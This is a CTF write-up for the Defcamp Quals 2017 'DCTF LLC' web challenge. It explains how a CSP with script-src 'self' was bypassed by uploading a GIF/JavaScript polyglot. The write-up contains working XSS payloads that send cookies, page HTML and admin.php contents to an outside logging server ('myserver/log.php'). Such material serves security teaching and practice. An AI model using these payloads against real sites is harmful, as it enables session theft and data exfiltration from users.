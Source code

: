 ## Title: 
Defcamp Quals 2017 CTF DCTF LLC writeup

## Description: 
We are looking for your feedback about our new amazing company! :-) 

## Writeup: 
I was the first to solve this challenge and we got bonus points for this. When we visit the website we see a form asking for name, email, message and file.
The first thing I tried is to upload a php file to get a shell, but that didn't work. Looking at the response header we see: 
```
content-security-policy:default-src 'none'; img-src 'self' *.imgur.com *.ibb.co; script-src 'self'; connect-src 'self'; style-src 'self' fonts.googleapis.com fonts.gstatic.com 'unsafe-inline'; font-src 'self' fonts.gstatic.com  fonts.googleapis.com;
```
Noticing `script-src 'self'`, I immediately realized that this is XSS and we have to bypass CSP by uploading our JS through a valid image with size less than 500 bytes and the image seems to by validated with `getimagesize()`.

The best way to get a valid image with an XSS payload is through GIF images so here is what I tried: 
```javascript
GIF89a/*
  ? ,    /*
   ;*/=1;document.location='https://myserver/log.php?x='+encodeURIComponent(document.cookie+document.getElementsByTagName('html')[0].innerHTML+document.cookie);
```
Now we include the image through a script tag in the message field: `<script src=/path/to/image.gif></script>` and here is what I got in the logs file: 
```
IP: 45.76.95.55 - September 30, 2017, 12:41 pm
REFERRER: https://llc.dctf-quals-17.def.camp//bot.php?id=258
Array
(
    [x] => <head>
<script src="jquery.js.min"></script>
</head>
<body>


<a href="admin.php">Dashboard</a>
<div align="center"><h4>Message Sent. Here's the preview:</h4>
	<div>
	Name: test@test
	Email: test@test
	Message: test<script src="/__acf23acea0ea2f39205ab707c8ed19d3/x.gif"></script></div></div></body>
)
```

We didn't get the flag, so it's probably in the `admin.php` file, all we have to do is to get its contents through an ajax request (jquery is alread loaded). 
```javascript
GIF89a/*
  ? ,    /*
   ;*/=1;$.ajax('/admin.php').done(function(data){location='https://myserver/log.php?x='+encodeURIComponent(data);});
```
and we got the flag: `DCTF{808f50ca3f3182a30e76bb9fcc0fdcb7f75f4ce597f7abe1793e3942acf3ec9e}` 
